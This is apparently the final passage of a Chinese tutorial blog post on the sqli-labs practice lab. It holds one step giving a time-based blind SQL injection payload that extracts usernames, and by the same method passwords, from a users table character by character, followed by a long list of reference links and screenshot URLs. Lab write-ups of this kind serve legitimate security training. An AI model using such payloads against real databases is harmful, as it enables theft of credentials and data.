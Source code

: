 (11)爆记录：构造payload为：`id=1))and if(substr((select username from security.users limit 0,1),1,1)='d',1,sleep(2))--+`，修改substr的第二个参数和设定的字符，密码爆破相同


  [1]: https://blog.csdn.net/qq_39670065/article/details/106762824?utm_medium=distribute.pc_relevant_t0.none-task-blog-OPENSEARCH-1.control&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-OPENSEARCH-1.control
  [2]: https://github.com/Audi-1/sqli-labs
  [3]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.1.png
  [4]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.2.png
  [5]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.3.png
  [6]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.4.png
  [7]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.5.png
  [8]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.6.png
  [9]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.7.png
  [10]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.8.png
  [11]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.9.png
  [12]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.10.png
  [13]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.11.png
  [14]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.1.png
  [15]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.2.png
  [16]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.3.png
  [17]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.4.png
  [18]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.5.png
  [19]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.6.png
  [20]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.7.png
  [21]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.8.png
  [22]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.1.png
  [23]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.2.png
  [24]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.3.png
  [25]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.1.png
  [26]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.2.png
  [27]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.3.png
  [28]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.4.png
  [29]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.5.png
  [30]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.6.png
  [31]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.7.png
  [32]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.8.png
  [33]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.9.png
  [34]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.1.png
  [35]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.2.png
  [36]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.3.png
  [37]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.4.png
  [38]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.5.png
  [39]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.6.png
  [40]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.7.png
  [41]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.8.png
  [42]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.9.png
  [43]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.1.png
  [44]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.2.png
  [45]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.3.png
  [46]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.4.png
  [47]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.5.png
  [48]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.6.png
  [49]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.7.png